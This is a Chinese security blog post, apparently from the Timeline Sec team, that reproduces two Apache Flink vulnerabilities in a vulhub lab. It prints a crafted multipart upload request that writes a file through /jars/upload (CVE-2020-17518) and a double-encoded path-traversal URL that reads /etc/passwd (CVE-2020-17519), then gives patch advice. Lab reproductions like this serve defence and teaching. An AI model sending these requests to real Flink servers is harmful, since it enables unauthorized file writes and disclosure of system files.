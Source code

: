 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/9xLQ1YAWVtHBv9qVk-Xc1A)

  

**上方蓝色字体关注我们，一起学安全！**

**作者：柠檬蔷薇** **@Timeline Sec**

**本文字数：875**

**阅读时长：2～3min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

Apache Flink 是由 Apache 软件基金会开发的开源流处理框架，其核心是用 Java 和 Scala 编写的分布式流数据流引擎。Flink 以数据并行和流水线方式执行任意流数据程序，Flink 的流水线运行时系统可以执行批处理和流处理程序。

**0x02 漏洞概述**  

  

**编号：CVE-2020-17518&17519**

Flink 1.5.1 引入了 REST API，但其实现上存在多处缺陷，导致目录遍历和任意文件写入漏洞。  

CVE-2020-17519：攻击者可通过 REST API 使用../ 跳目录实现系统任意文件读取；CVE-2020-17518：通过构造恶意的 http header，可实现远程文件写入。

**0x03 影响版本**  

  

1、CVE-2020-17518：  

Apache Flink 1.5.1 ~ 1.11.2

### 2、CVE-2020-17519

Apache Flink 1.11.0、1.11.1、1.11.2

**0x04 环境搭建**  

  

**CVE-2020-17518**

使用 vulhub 进行安装，vulhub 地址：  

```
https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17518
```

进入目录

```
cd vulhub-master/flink/CVE-2020-17518
```

安装环境  

```
sudo docker-compose up -d
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiawicdhGUkqJYl6YcBoAnpoliaGPSuKB8UKicJrIiaF0H3HtCBhic7OPsJVeOdWG8dRJaWOghZwJqL5DPw/640?wx_fmt=png)

接着访问 http://your-ip:8081

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiawicdhGUkqJYl6YcBoAnpolJTAKZf6cj7ywibJJpfBRSCoE68QkF4LBlNnhloR1k0yjQ4yCT0bbF5A/640?wx_fmt=png)

### **CVE-2020-17519**

Vulhub 地址：  

```
https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17519
```

进入目录

```
cd vulhub-master/flink/CVE-2020-17519
```

安装环境  

```
sudo docker-compose up -d
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiawicdhGUkqJYl6YcBoAnpolSXMeXDickkRqDGAEcG0cd8e8Oae1w02LUu5eKZyUX8xvk5bktbe8LTg/640?wx_fmt=png)  

接着访问：http://your-ip:8081

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiawicdhGUkqJYl6YcBoAnpolJTAKZf6cj7ywibJJpfBRSCoE68QkF4LBlNnhloR1k0yjQ4yCT0bbF5A/640?wx_fmt=png)

**0x05 漏洞复现**  

  

**CVE-2020-17518**

#### 1、构建数据包进行发送

```
POST /jars/upload HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (X11; Linux x86_64;rv:78.0) Gecko/20100101 Firefox/78.0
Connection: close
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187
 
------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data;
 
success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiawicdhGUkqJYl6YcBoAnpolqiaiagRHLhFYuwjEluEnneanKupgNRicO7P85sFhszy2j5l3x807icckZA/640?wx_fmt=png)

#### 2、 此时进入容器，查看 success 文件是否创建成功

```
cd vulhub-master/flink/CVE-2020-17518
docker ps
docker exec -it CONTAINER ID bash
ls /tmp
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiawicdhGUkqJYl6YcBoAnpolklndUD2ic73FcP0xwZrP1TTznlGW4mtVZuNAianu1LLkiaGeQhiaLGiaPqA/640?wx_fmt=png)

如上图所示，镜像里面有了 success 文件，执行成功

### **CVE-2020-17519**

POC：  

```
http://ip:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiawicdhGUkqJYl6YcBoAnpolxSrxH2iblFNuhwhxV53tfbicIa2L4ib4TOrYSyFcS8zI4mxWGwZLwiaYuA/640?wx_fmt=png)  

**0x06 修复方式**  

  

临时修复建议：

若业务环境允许，使用白名单限制相关 web 项目的访问来降低风险。

官方已发布安全版本，请及时下载升级至安全版本。

  
下载链接：  

https://flink.apache.org/zh/downloads.html

```
参考链接：
```

https://github.com/vulhub/

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行